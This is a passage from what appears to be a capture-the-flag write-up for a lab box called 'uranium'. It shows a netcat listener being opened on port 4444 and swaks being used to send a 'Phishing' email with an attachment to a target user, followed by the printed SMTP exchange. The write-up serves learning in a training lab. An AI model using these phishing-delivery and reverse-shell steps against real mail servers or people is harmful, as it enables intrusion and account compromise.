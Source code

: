 ```
root@ubuntu:~/THM/uranum# nc -nlvp 4444
listening on [any] 4444 ...

 ```
 Let's send this to Hakanbey using ssmtp or sendEmail or you we can use swask tool 

 ```
 https://github.com/jetmore/swaks
 ```

using swaks

```
root@ubuntu:~/THM/uranum# swaks --to hakanbey@uranium.thm --from hakanbey@uranium.thm --header "Subject: Phishing" --body "any message" --server 10.10.76.40 --attach application
```
```
root@ubuntu:~/THM/uranum#  swaks --to hakanbey@uranium.thm --from hakanbey@uranium.thm --header "Subject: Phishing" --body "any message" --server 10.10.76.40 --attach 
application                                                                                                                                                            
*** DEPRECATION WARNING: Inferring a filename from the argument to --attach will be removed in the future.  Prefix filenames with '@' instead.                         
=== Trying 10.10.76.40:25...                                                                                                                                           
=== Connected to 10.10.76.40.                                                                                                                                          
<-  220 uranium ESMTP Postfix (Ubuntu)
 -> EHLO ubuntu                        
<-  250-uranium                                                                    
<-  250-PIPELINING                  
<-  250-SIZE 10240000         
<-  250-VRFY                      
<-  250-ETRN                                                                       
<-  250-STARTTLS                                                                   
<-  250-ENHANCEDSTATUSCODES            
<-  250-8BITMIME                                                                   
<-  250-DSN                 
<-  250 SMTPUTF8                                                                               
 -> MAIL FROM:<hakanbey@uranium.thm>                                                           
<-  250 2.1.0 Ok                                                                                               
 -> RCPT TO:<hakanbey@uranium.thm>                                                             
<-  250 2.1.5 Ok                   
 -> DATA                                                                           
<-  354 End data with <CR><LF>.<CR><LF>                                                                                               
 -> Date: Sun, 22 Aug 2021 21:34:08 +0100                                          
 -> To: hakanbey@uranium.thm                                                                                                          
 -> From: hakanbey@uranium.thm     
 -> Subject: Phishing                                                              
 -> Message-Id: <20210822213408.041279@ubuntu>                                                                                        
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/                                   
 -> MIME-Version: 1.0                          
 -> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_41279"                                    
 ->                                                                                            
 -> ------=_MIME_BOUNDARY_000_41279                    
 -> Content-Type: text/plain                                                                                   
 ->                                                                
 -> any message                                                    
```